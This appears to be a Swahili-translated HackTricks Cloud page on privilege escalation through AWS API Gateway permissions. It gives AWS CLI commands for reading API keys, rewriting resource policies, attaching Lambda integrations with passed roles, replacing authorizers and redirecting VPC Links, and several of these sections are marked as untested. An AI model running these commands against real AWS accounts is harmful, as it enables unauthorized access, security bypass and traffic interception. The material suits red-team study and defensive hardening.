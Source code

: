 # AWS - Apigateway Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Apigateway

Kwa maelezo zaidi angalia:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### `apigateway:POST`

Kwa ruhusa hii unaweza kuunda funguo za API za APIs zilizowekwa (kwa kila eneo).
```bash
aws --region <region> apigateway create-api-key
```
**Madhara Yanayoweza Kutokea:** Huwezi kupandisha hadhi kwa kutumia mbinu hii lakini unaweza kupata ufikiaji wa taarifa nyeti.

### `apigateway:GET`

Kwa ruhusa hii unaweza kupata funguo za API zilizotengenezwa za APIs zilizowekwa (kila eneo).
```bash
aws --region <region> apigateway get-api-keys
aws --region <region> apigateway get-api-key --api-key <key> --include-value
```
**Madhara Yanayoweza Kutokea:** Huwezi kupandisha hadhi kwa kutumia mbinu hii lakini unaweza kupata ufikiaji wa taarifa nyeti.

### `apigateway:UpdateRestApiPolicy`, `apigateway:PATCH`

Kwa ruhusa hizi inawezekana kubadilisha sera ya rasilimali ya API ili kujipa ufikiaji wa kuitumia na kutumia ufikiaji wa uwezekano ambao API gateway inaweza kuwa nao (kama kuita lambda iliyo hatarini). 

{% code overflow="wrap" %}
```bash
aws apigateway update-rest-api \
--rest-api-id api-id \
--patch-operations op=replace,path=/policy,value='"{\"jsonEscapedPolicyDocument\"}"'
```
{% endcode %}

**Madhara Yanayoweza Kutokea:** Wewe, kwa kawaida, huwezi kupata privesc moja kwa moja kwa kutumia mbinu hii lakini unaweza kupata ufikiaji wa taarifa nyeti.

### `apigateway:PutIntegration`, `apigateway:CreateDeployment`, `iam:PassRole`

{% hint style="info" %}
Inahitaji kupimwa
{% endhint %}

Mshambuliaji mwenye ruhusa `apigateway:PutIntegration`, `apigateway:CreateDeployment`, na `iam:PassRole` anaweza **kuongeza muunganiko mpya kwenye API Gateway REST API iliyopo kwa kutumia kazi ya Lambda ambayo ina jukumu la IAM lililounganishwa**. Mshambuliaji anaweza kisha **kuanzisha kazi ya Lambda kutekeleza msimbo wowote na kwa uwezekano kupata ufikiaji wa rasilimali zinazohusiana na jukumu la IAM**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"
LAMBDA_ROLE_ARN="arn:aws:iam::account-id:role/lambda-role"

# Add a new integration to the API Gateway REST API
aws apigateway put-integration --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --type AWS_PROXY --integration-http-method POST --uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations --credentials $LAMBDA_ROLE_ARN

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Madhara Yanayoweza Kutokea**: Ufikiaji wa rasilimali zinazohusiana na jukumu la IAM la kazi ya Lambda.

### `apigateway:UpdateAuthorizer`, `apigateway:CreateDeployment`

{% hint style="info" %}
Inahitaji kupimwa
{% endhint %}

Mshambuliaji mwenye ruhusa `apigateway:UpdateAuthorizer` na `apigateway:CreateDeployment` anaweza **kubadilisha mthibitishaji wa API Gateway uliopo** ili kupita kwenye ukaguzi wa usalama au kutekeleza msimbo wa kiholela wakati maombi ya API yanapofanywa.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
AUTHORIZER_ID="your-authorizer-id"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"

# Update the API Gateway authorizer
aws apigateway update-authorizer --rest-api-id $API_ID --authorizer-id $AUTHORIZER_ID --authorizer-uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Madhara Yanayoweza Kutokea**: Kupita ukaguzi wa usalama, ufikiaji usioidhinishwa wa rasilimali za API.

### `apigateway:UpdateVpcLink`

{% hint style="info" %}
Inahitaji kupimwa
{% endhint %}

Mshambuliaji mwenye ruhusa `apigateway:UpdateVpcLink` anaweza **kubadilisha Kiungo cha VPC kilichopo ili kiashirie kwenye Balansi ya Mizigo ya Mtandao tofauti, ambayo inaweza kuelekeza trafiki ya API ya kibinafsi kwa rasilimali zisizoidhinishwa au zenye uharibifu**.
```bash
bashCopy codeVPC_LINK_ID="your-vpc-link-id"
NEW_NLB_ARN="arn:aws:elasticloadbalancing:region:account-id:loadbalancer/net/new-load-balancer-name/50dc6c495c0c9188"

# Update the VPC Link
aws apigateway update-vpc-link --vpc-link-id $VPC_LINK_ID --patch-operations op=replace,path=/targetArns,value="[$NEW_NLB_ARN]"
```
**Madhara Yanayoweza Kutokea**: Ufikiaji usioidhinishwa wa rasilimali za API za kibinafsi, kukamata au kuingilia kati trafiki ya API.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
